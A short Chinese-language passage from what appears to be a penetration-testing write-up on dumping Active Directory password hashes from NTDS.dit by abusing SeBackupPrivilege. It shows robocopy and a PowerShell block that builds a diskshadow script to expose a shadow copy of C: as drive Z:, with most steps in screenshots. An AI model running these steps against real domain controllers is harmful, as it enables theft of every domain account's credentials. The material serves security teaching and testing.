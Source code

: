## 使用 SeBackupPrivilege 转储 NTDS.dit 哈希值

使用 robocopy 制作 ntds.dit 文件的副本

[![](assets/1706771835-b1e56072e04deaca9834e9fb1ddd2d02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129103231-a6cf9e52-be4e-1.png)

制作 script.txt 文件

[![](assets/1706771835-b11151b293cd3ee070ed717cff22745a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129103237-aae3fb64-be4e-1.png)

```plain
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append        
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append
```

创建 script.txt 文件后，我使用以下命令创建卷影副本并将其显示为 Z:\\ 驱动器：

[![](assets/1706771835-a8c3b8b59f72f4f9a770ea0bfd3870ae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129103245-af39cb1c-be4e-1.png)
